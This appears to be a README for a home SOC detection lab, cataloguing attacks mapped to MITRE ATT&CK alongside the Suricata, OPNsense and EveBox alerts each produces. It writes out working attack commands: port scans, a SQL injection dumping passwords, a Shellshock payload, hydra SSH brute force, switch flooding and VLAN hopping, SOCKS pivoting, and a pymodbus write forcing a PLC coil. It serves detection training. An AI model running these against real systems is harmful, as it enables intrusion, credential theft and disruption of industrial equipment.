

# SOC Lab Adversary Simulation & Detection Catalog

This catalog outlines all attack scenarios supported in the **Enterprise SOC Detection & Perimeter Home Lab**, mapped to the **MITRE ATT&CK Framework**, tools, commands, and the telemetry generated across **OPNsense NGFW**, **Suricata 8.0.7 IDS**, and **EveBox SIEM**.

---

## 1. Attack Progression & Threat Model



---

## 2. Attack Vectors & Detection Matrix

### Phase 1: External Reconnaissance & Perimeter Probing

#### Scenario 1.1: Stealth SYN Port Scanning
- **Objective:** Discover open listening ports on the external firewall perimeter without completing TCP 3-way handshakes.
- **MITRE ATT&CK:** [T1046: Network Service Discovery](https://attack.mitre.org/techniques/T1046/)
- **Adversary Command (Kali):**
  ```bash
  sudo nmap -sS -Pn -p 21,22,23,80,443,3306,3389,8080 172.31.255.1
  ```
- **Detection & Telemetry:**
  - **Suricata Alert:** `SOC ALERT: Inbound Port Scan Detected`
  - **OPNsense Action:** Unsolicited TCP SYN dropped / logged in firewall live log.
  - **EveBox Category:** `Attempted Information Leak` (Severity 2).

#### Scenario 1.2: Vulnerability Scanner User-Agent Probing
- **Objective:** Fingerprint server software and discover automated web scanning signatures.
- **MITRE ATT&CK:** [T1595.002: Active Scanning - Vulnerability Scanning](https://attack.mitre.org/techniques/T1595/002/)
- **Adversary Command (Kali):**
  ```bash
  curl -A "sqlmap/1.4.7" -s "http://172.31.255.1/"
  nikto -h http://172.31.255.1
  ```
- **Detection & Telemetry:**
  - **Suricata Alert:** `SOC ALERT: Security Scanner User-Agent Detected` (ET 2000003)
  - **EveBox Category:** `Attempted Information Leak`.

---

### Phase 2: Web Application & DMZ Exploitation

#### Scenario 2.1: SQL Injection (SQLi)
- **Objective:** Exploit vulnerable web application inputs to dump backend database contents.
- **MITRE ATT&CK:** [T1190: Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- **Adversary Execution (Kali):**
  ```bash
  curl -s -A "sqlmap/1.4.7" "http://172.31.255.1/?id=1%20UNION%20SELECT%20username,password%20FROM%20users--"
  ```


- **Detection & Telemetry:**
  - **Suricata Alert:** `SOC ALERT: Web SQL Injection Union Select Pattern Detected` (ET 2000002)
  - **EveBox Category:** `Web Application Attack` (Severity 1).


#### Live Event Investigation in EveBox SIEM:


#### Scenario 2.2: Shellshock Remote Code Execution (CVE-2014-6271)
- **Objective:** Exploit environment variable parsing in Bash to execute arbitrary system commands.
- **MITRE ATT&CK:** [T1059.004: Command and Scripting Interpreter - Unix Shell](https://attack.mitre.org/techniques/T1059/004/)
- **Adversary Command (Kali):**
  ```bash
  curl -s -X POST http://172.31.255.1/cgi-bin/test.sh \
    -H "User-Agent: () { :;}; echo CVE-2014-6271; /bin/uname -a"
  ```
- **Detection & Telemetry:**
  - **Suricata Alert:** `ET WEB_SERVER Possible CVE-2014-6271 Attempt` (ET 2019230)
  - **EveBox Category:** `Attempted Administrator Privilege Gain` (Severity 1).

#### Scenario 2.3: SSH Credential Brute-Force
- **Objective:** Gain unauthorized remote shell access via dictionary attack.
- **MITRE ATT&CK:** [T1110.001: Brute Force - Password Guessing](https://attack.mitre.org/techniques/T1110/001/)
- **Adversary Command (Kali):**
  ```bash
  hydra -l root -P /usr/share/wordlists/rockyou.txt 172.31.255.1 ssh -t 4
  ```
- **Detection & Telemetry:**
  - **Suricata Alert:** `SOC ALERT: Inbound SSH Connection Attempt` (ET 2000001)
  - **EveBox Category:** `Attempted Information Leak`.

---

### Phase 3: Layer 2 Switch Attacks (Intra-VLAN / Core Switch)

The Cisco Core Switch segments internal enterprise domains and provides SPAN port mirroring out to the Suricata inspection engine:


#### Scenario 3.1: CAM Table Overflow (MAC Flooding)
- **Objective:** Exhaust the switch Content Addressable Memory (CAM) table to force it into hub/broadcast mode.
- **Tool:** `macof` (dsniff package)
- **Adversary Command:**
  ```bash
  sudo macof -i eth0 -n 50000
  ```
- **Switch Defense & Telemetry:**
  - Cisco Port Security violation trap triggered: `PORT_SECURITY-2-PVIOLATION`
  - High packet rate detected on SPAN mirror port (`e0/3`).

#### Scenario 3.2: Dynamic Trunking Protocol (DTP) & VLAN Hopping
- **Objective:** Send rogue DTP frames to negotiate an unauthorized 802.1Q trunk link.
- **Tool:** `yersinia`
- **Adversary Command:**
  ```bash
  sudo yersinia dtp -attack 1 -i eth0
  ```
- **Switch Defense:** `switchport mode access` and `switchport nonegotiate` mitigate rogue trunk negotiation.

---

### Phase 4: Lateral Movement & Internal Pivoting

#### Scenario 4.1: SOCKS Proxy Tunneling via DMZ
- **Objective:** Pivot through a compromised DMZ host into the internal Corporate LAN (`10.10.10.0/24`).
- **MITRE ATT&CK:** [T1090.001: Proxy - Internal Proxy](https://attack.mitre.org/techniques/T1090/001/)
- **Adversary Commands:**
  ```bash
  # Step 1: Establish SSH dynamic SOCKS tunnel
  ssh -D 1080 -f -C -q -N user@10.10.20.10

  # Step 2: Scan Corporate LAN through tunnel
  proxychains nmap -sT -Pn -p 80,445,3389 10.10.10.50
  ```
- **Detection & Telemetry:**
  - Suricata detects cross-zone lateral traffic from DMZ to Corporate LAN.
  - OPNsense logs inter-interface policy violations.

---

### Phase 5: Deep Packet Inspection & Wire Verification

Deep packet inspection verifies TCP handshakes and payload integrity at the packet layer:


---

### Phase 6: OT / ICS Industrial Control Attacks

#### Scenario 6.1: Unauthorized Modbus TCP Command Injection
- **Objective:** Send unauthorized read/write function codes to PLC (`10.10.30.100:502`).
- **MITRE ATT&CK for ICS:** [T0855: Unauthorized Command Message](https://attack.mitre.org/techniques/T0855/)
- **Adversary Command:**
  ```python
  from pymodbus.client import ModbusTcpClient
  client = ModbusTcpClient('10.10.30.100', port=502)
  client.connect()
  # Write single coil (Force coil 1 to ON)
  client.write_coil(1, True)
  client.close()
  ```
- **Detection & Telemetry:**
  - **Suricata Alert:** `SOC ALERT: Unauthorized Modbus TCP Write/Command to PLC`
  - **Severity:** Critical / Priority 1.

---

## 3. Automated Attack Simulation Script

The lab includes a unified adversary execution script:
```bash
# Connect to Kali node
telnet 192.168.1.35 32772

# Execute full automated simulation
chmod +x /home/kali/kali-redteam-attack.sh
./kali-redteam-attack.sh 172.31.255.1
```

---

## 4. SOC Analyst Triage Checklist (EveBox UI)


1. Open EveBox SIEM: `http://192.168.1.35:5636`
2. Filter by Source IP: `src_ip: 172.31.255.100`
3. Inspect event payload, raw TCP/UDP flags, and packet stream.
4. Escalate critical findings (Severity 1 / SQLi / CVE-2014-6271) and tune noise rules.
